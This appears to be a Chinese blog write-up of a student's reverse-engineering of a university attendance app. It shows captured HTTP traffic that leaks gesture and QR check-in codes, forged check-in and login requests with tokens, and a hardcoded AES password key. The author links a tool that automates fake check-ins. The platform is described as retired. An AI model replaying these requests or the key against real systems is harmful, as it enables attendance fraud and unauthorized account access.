





始于一次兴起，想对学校的签到软件进行抓包试试，在一次英语课的签到上尝试了一下，偶然发现: 

# 手势签到破解思路

使用的签到方式是手势签到，以下是本次签到的手势



然后使用手机抓包软件`HttpCanary`抓了一下响应发现，在没有完成签到的情况下，**响应内容竟然有手势密码??!**

以下是抓包的**响应**

```raw {37} with wrap=false collapse={5-31,40-43}
HTTP/1.1 200 
Date: Tue, 05 Nov 2024 02:43:42 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: PUT, GET, POST, OPTIONS
Access-Control-Allow-Headers: DNT,X-CustomHeader,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cache-Control,Content-Type,Authorization
Access-Control-Max-Age: 1728000

238
{
  "code": 0,
  "msg": null,
  "intercepted": true,
  "data": [
    {
      "calendarId": "1840326648611450882",
      "calendarName": "Mini project 2 - A child’s clutter awaits an adult’s return",
      "calendarOrder": 7,
      "businessList": [
        {
          "collegeId": "2263",
          "termId": "1832946583942795266",
          "calendarId": "1840326648611450882",
          "teachClassId": "1839557950615138356",
          "courseId": "1711200736744427521",
          "teachingArrangementId": "1839557950581583956",
          "type": "1",
          "businessId": "1853629118787575810",
          "attendanceType": 1,
          "insCountDown": 571,
          "attendanceCode": "1,2,3",
          "createTime": "2024-11-05 10:43:15",
          "isAnonymous": null
        }
      ]
    }
  ]
}
```

可以看到`attendanceCode`的值为*`1,2,3`*，这样似乎不太明显，如果像下图这样编号一下呢:



是不是一下就清楚了，这个接口竟然在没有签完到的情况下将数据库的完整信息返回了，理论这个数据不应该返回出来

然后再来看一下签到的**请求**是怎样的

```raw {17} with wrap=false collapse={5-13}
POST /se-tool-gateway/biz/attendance/studentAttendanceBiz/save HTTP/1.1
token: 66bad09b-edad-4e64-a80c-7c1c1db994c4
Referer: http://sep.study.neuedu.com/
Content-Type: application/json; charset=utf-8
Content-Length: 186
Host: sep.study.neuedu.com
Connection: Keep-Alive
Accept-Encoding: gzip
User-Agent: okhttp/3.10.0

{
  "access_token": "66bad09b-edad-4e64-a80c-7c1c1db994c4",
  "termId": "1832946583942795266",
  "attendanceType": "1",
  "instanceId": "1853629118787575810",
  "collegeId": "2263",
  "attendanceCode": "1,2,3"
}
```

不出所料，`attendanceCode`的值被原样传递，甚至不需要更改，直接就可以发送签到的请求

那这样的话签到就简单了，只需要把获取的响应里面的字段拿出来直接放在请求里面理论上就可以实现签到了

# 扫码签到破解

经过实操，以上的猜测没有问题，于是我有了一个想法，是不是扫码签到也是同样的原理，也就可以做到无须二维码即可签到

虽然是扫码签到，但是可以用二维码扫描软件看出，二维码本质只是在传递`13`位的随机数字，同样抓包可得`attendanceCode`字段，和前面一样，直接传递即可，其中需要把`"attendanceType": "2"`赋值为`2`

```json
{
  "access_token": "d4b82353-17d2-449c-893e-e58f7c088c26",
  "termId": "1832946583942795266",
  "attendanceType": "2",
  "instanceId": "1854401114356383746",
  "collegeId": "2263",
  "attendanceCode": "1730958814553"
}
```

# 登录破解

于是有了这些想法和猜测，接下来便是从登录到签到的请求全部扒干净即可

以下是登录的请求

```raw {43}
POST /se-tool-gateway/data/user/systemUser/userLoginPost HTTP/1.1
token: ed8ff7ca-2aeb-43e3-b446-20e61f09fea7
Referer: http://sep.study.neuedu.com/
Content-Type: application/json; charset=utf-8
Content-Length: 87
Host: sep.study.neuedu.com
Connection: Keep-Alive
Accept-Encoding: gzip
User-Agent: okhttp/3.10.0

{
  "p": "YEhIr8eIyWw4mt7Ax61sTA\u003d\u003d",
  "collegeId": "2263",
  "loginCode": "24*********"
}
```

以及响应

```raw with wrap=false collapse={4-40}
HTTP/1.1 200 
Date: Wed, 06 Nov 2024 01:59:12 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: PUT, GET, POST, OPTIONS
Access-Control-Allow-Headers: DNT,X-CustomHeader,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cache-Control,Content-Type,Authorization
Access-Control-Max-Age: 1728000

36e
{
  "createTime": "2024-09-10 10:28:31",
  "createUser": "oshwk1ab5f9e1bc7d4d838b55**********",
  "updateTime": "2024-11-05 19:41:28",
  "updateUser": "system",
  "userId": "2518290",
  "collegeId": "2263",
  "collegeDisplayName": "成都东软学院",
  "mobile": "17200********",
  "realName": "***",
  "roles": "4",
  "sysCode": "24*************",
  "departmentName": "计算机与软件学院",
  "majorName": "计算机类",
  "adminClassName": "计算机类***",
  "enrollmentYear": 2024,
  "email": "************",
  "password": "*****************",
  "state": 1,
  "sex": "男",
  "cardType": "0",
  "isTeaching": 1,
  "stuState": 1,
  "departmentId": "620",
  "majorId": "702",
  "adminClassId": "203*****4",
  "userName": "***********************",
  "accessToken": "d320bdf2-20aa-4f99-a63b-7*************",
  "coorperativeType": 1,
  "teachingType": 1,
  "roleList": [
    {
      "roleId": "4",
      "roleName": "学生",
      "roleCode": "STUDENT"
    }
  ]
}
```

然后拿到`accessToken`作为后续身份验证的依据，不过发现了一个问题，请求负载里面的`password`并不是我所输入的密码，既然没有响应那么就是在本地做了加密

如果要做登录页面的话那就要想办法把登录的加密手段给破解出来，否则使用的用户需要自己抓一次自己的密码加密后的密文，这并不优雅也提高了门槛

于是我尝试试试常用加密算法里面如何将`TLgkg96~`加密为`Xp5R2yTnBP+nBTEIZhdJ+A\u003d\u003d`，在各种在线网站上试了各种方法都未能复原这个密文，但是我有了一个思路便是这个加密似乎是需要一个`key`来进行加密的，这个`key`是在本地的一个字符串常量，所以我想法是在`MT资源管理器`里面搜字符串常量有没有结果，不过无功而返，难道要放弃这个功能吗？

几天后...这时我突然想到了一个软件：`算法助手`，于是我打开了虚拟机试一试



结果也是在如同预期发现了加密的算法，如上图



于是在在线加密网站上验证了这个加密方法

加密采用`AES`加密，`key`是固定为`757da2be61249c18`并写死在代码里面的，这样就能就能通过密码得到密文

# 软件编写

之后的逻辑便是 `获取课程` -> `课程信息` -> `签到任务`，这样拿到签到的响应，进行之前的签到请求即可

软件采用`欲v6`语言编写，使用在移动端设计Android应用的软件`iApp`来开发，软件演示：



这个猜测在一次高数课上得到了验证

:::tip
视频暂不演示
:::

软件开源地址：（宇宙声明：仅供学习，请勿用于非法用途）

::github{repo="Bluore/NSUedu"}

:::warning

不过现在你别想一些歪门邪道了，这个平台在25年便弃用了

作者声明：未滥用此漏洞，没有逃课（〃｀ 3′〃）

此文章写于`2026-1-19`，也是在弃用之后

:::
